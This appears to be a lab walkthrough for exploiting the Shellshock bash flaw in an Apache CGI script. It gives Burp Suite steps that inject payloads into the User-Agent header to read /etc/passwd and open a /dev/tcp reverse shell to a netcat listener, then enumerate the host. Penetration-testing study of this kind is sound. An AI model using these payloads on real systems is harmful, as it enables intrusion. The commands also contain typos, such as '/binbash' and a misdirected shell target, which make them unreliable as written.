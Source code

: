 # Exploiting Bash CVE-20214-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is s family of vulnerabilites in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allwing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
- Only affects Linux (not Windows)
- In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
  
- In order to exploit this vulnerability, we need to locate a input vector or script that allows you to communicate with Bash
- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Demo: Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

We want to get the target IP:

`ifconfig`

`namp -sV [target IP]`

Port 80, target IP is running a webserver. We can confirm this with the browser. The countdown is done by a CGI script. It executes the gettime.cgi script and we can access it because its in the root [targetip]/cgi.script. We can utilize this as our input vector. We can check if this system is vulnerable to our attack strategy:

`nmap -sV [target IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

Target is vulnerable and exploitable. Foxy Proxy allows to switch between Proxy's. We open BurpSuite and we use the default config:

Proxy -> Intercept ON -> We make a get request for the gettime.cgi script.

We are going to inject the special characters into the user agent http header. Send request to Repeater (rightclick) -> Repeater tab. We can replace the user agent information with our special characters. User Agent: `() { :; }; echo; echo; /binbash -c 'cat /etc/passwd'` To send this request: SEND. So it displays the output of this command in RESPONSE.

Getting reverse shell on target? We can utilize bash to connect to a listener to our kali linux system:

Listens to that port on the target system:

`nc -nvlp 1234`

We open Burpsuite, in REQUEST we replace our old command: `() { :; }; echo; echo; /binbash -c 'bash -i>&/dev/tcp/[target IP]/1234 0>&1'` SEND. we should get a reverse shell on our netcat listener. connection on target should be established:

We are logged in as the deamon@victim-1
`whoami`

enumerate info regarding the distro
`cat /etc/*issue`

gives us the kernel info
`uname -a`



